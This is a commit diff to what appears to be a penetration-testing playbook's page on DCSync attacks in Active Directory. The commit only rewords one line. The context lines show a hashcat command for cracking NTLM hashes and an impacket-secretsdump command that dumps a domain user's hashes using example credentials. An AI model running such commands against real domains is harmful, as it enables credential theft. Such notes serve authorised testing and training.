

Before and after one commit to stafford-m/pt-playbook, an MkDocs documentation site: the page built from docs/activedirectory/dcsync.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
update dcsync notes

````diff
--- a/docs/activedirectory/dcsync.md
+++ b/docs/activedirectory/dcsync.md
@@ -19,7 +19,7 @@ crack the hash
 hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
 ```
 
-Using an account with these permissions
+Using an account with these permissions, ntds hashes will be dumped
 ```bash
 impacket-secretsdump -just-dc-user michelle corp.com/corpadmin:"password123\!"@192.168.0.25
 ```
````
